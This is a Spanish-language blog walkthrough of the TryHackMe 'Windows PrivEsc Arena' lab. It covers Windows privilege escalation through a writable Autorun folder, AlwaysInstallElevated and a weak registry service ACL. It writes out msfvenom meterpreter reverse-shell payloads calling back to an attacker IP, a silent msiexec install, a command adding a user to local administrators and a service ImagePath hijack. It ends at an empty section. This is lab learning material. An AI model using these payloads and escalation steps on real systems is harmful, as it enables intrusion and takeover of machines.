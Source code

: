 ```yaml
---
layout: post
title: "Windows PrivEsc Arena"
subtitle: 'TryHackMe - Medium Machine - Windows'
date: 2020-08-17 12:00:00
author: "TheusZero"
header-img: "images/post/WindowsPEA/1.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


# Windows PrivEsc Arena - TryHackMe

Es una maquina o caja de TryHackMe enfocada en bypassear y escalar privilegios dento 
de maquinas windows, corresponde a windows 7 y trata sobre topicos como Autorun, DLL, Memory y Kernel.
Dentro de la maquina existen un total de **14 eventos o TASK** los cuales debemos completar para obtener el award de la maquina.

## Connecting to TryHackMe Network

facil, conectarse a la vpn de TryHackMe

## Deploy the vulnerable machine

aqui debemos spawnear la maquina, nos dan los usuarios para entrar a la maquina:

> username: user password: password321 || username: TCM password: Hacker123 

yo entre por rdesktop que simula una grafica del sistema windows, con es

## Registry Escalation - Autorun 

aqui intentaremos escalar privilegios encontrando un programa que se ejecute al inicio 

#### Detection

una vez dentro de la maquina windows, debemos acceder a una terminal de commandos y escrbir el prompt :
```Python
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```
esto nos dara acceso a una ventana que nos mostrara diferentes procesos y elementos, sin embargo el que realmente nos interesa es el de nombre **logon**
![](/TheusZero/images/post/WindowsPEA/logon1.png)
al darle click podemos ver procesos que se ejecutan al principio o termino del windows, por lo tanto lo siguiente es buscar ese programa que encontramos ahi
![](/TheusZero/images/post/WindowsPEA/program-exe.png)
el **programa.exe** es un poco raro, ya que de por si debio ser creado por el usuario.
```Python
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```
con el output podemos ver que tenemos acceso total a los archivos, es decir, que podemos crear y escribrir archivos en la carpeta en la que esta el program.exe

hora de explotar.

#### explotation

abriremos un modulo de metasploit con **msfconsole** en la terminal, una vez dentro usaremos el modulo de multi/handler con 
```Python
use multi/handler
```
ahora le colocaremos el payload de reverse tcp shell 
```Python
set payload windows/meterpreter/reverse_tcp
```
colocaremos la ip nuestra 
```Python
set lhost [Kali VM IP Address]
```
y por ultimo le daremos a **run**

ahora ya con esto listo, generaremos el exploit creado con msfvenom dandole los siguientes comandos.

```Python
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
```
> donde
>> **-p windows/meterpreter/reverse_tcp** corresponde al payload que se usara para crear el exploit
>
>> **-f exe** corresponde a la extension que tendra el archivo
>
>>  **-o program.exe** corresponde al output que tendra el programa

una vez hecho todo esto, solo queda pasar o descargar el archivo program.exe generado en la localizacion del verdadero program.exe en

> C:\Program Files\Autorun Program

te deslogueas y listo.

## AlwaysInstallElevated

#### Detection

abriendo la terminal de comandos cmd o powershell escribrimos:
![](/TheusZero/images/post/WindowsPEA/AIE.png)
```Python
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
en el ouput obtenemos un archivo llamado **AlwaysInstallElevated** que corresponde a **1** es decir, esta activo, que hace esto?. 

Teniendo este mensajes tenemos un supuesto archivo que deja instalar archivos con permisos de administrador siempre, por lo tanto es importantisimo para escalar privilegios, pero como obtenemos acceso al superUsuario?

#### explotacion

creamos el exploit con msfconsole
```Python
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost [Kali VM IP Address]
```

ahora como ultimo paso en la creacion del exploit es usar el siguiente comando:

```Python
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
```

este comando crea un archivo de tipo Windows installer (MSI) con el payload que anteriormente creamos.

mandamos el archivo a la maquina windows, lo ubicamos en donde podamos.

ahora, para hacer funcional el exploit debemos mandar el siguiente comando via cmd o poweshell

```Python
msiexec /quiet /qn /i C:\Temp\setup.msi
```
siendo **C:\Temp\setup.msi** la ruta especifica y de raiz del archivo que creamos como tal.

## Registry

**requisitos**:

abrir una **powershell** 

en caso de que no se pueda, usar el siguiente comando:

```Python
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe “Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl”
```

![](/TheusZero/images/post/WindowsPEA/registryDetection.png)

#### Detection

el comando :

```Python
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\services\regsvc | fl
```
nos mostrara que existe un servicio o registro como tal que tiene y ejecuta archivos de forma **NT AUTHORITY\INTERACTIVE** sobre la key del registro, por ende, si podemos configurarla a nuestro favor podremos obtener una shell de administrador

![](/TheusZero/images/post/WindowsPEA/registryDetection2.png)

#### Exploitation

dentro de nuestra maquina crearemos un script que subiremos ya compilado a la maquina para que esta la ejecute como resgistro y nos de acceso a la maquina como tal.

[reverse shell script .c for privesec](https://github.com/sagishahar/scripts.git)

![](/TheusZero/images/post/WindowsPEA/registry.png)

el comando que se le agrega es:

```Python
cmd.exe /k net localgroup administrators user /add
```

con este script listo lo compilaremos con:

**Install gcc-mingw-w64 by sudo apt install gcc-mingw-w64 and compile c file using by x86_64-w64-mingw32-gcc windows_service.c -o x.exe**

```Python
x85_64-w64-mingw32-gcc NameArchive.c  -o x.exe
```

ahora queda pasarlo a la maquina y realizar el siguiente comando para agregarlo a los registros o servicios como tal:

```Python
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f

sc start regsvc
```

recordar que x.exe corresponde al nombre del archivo

## Executable Files


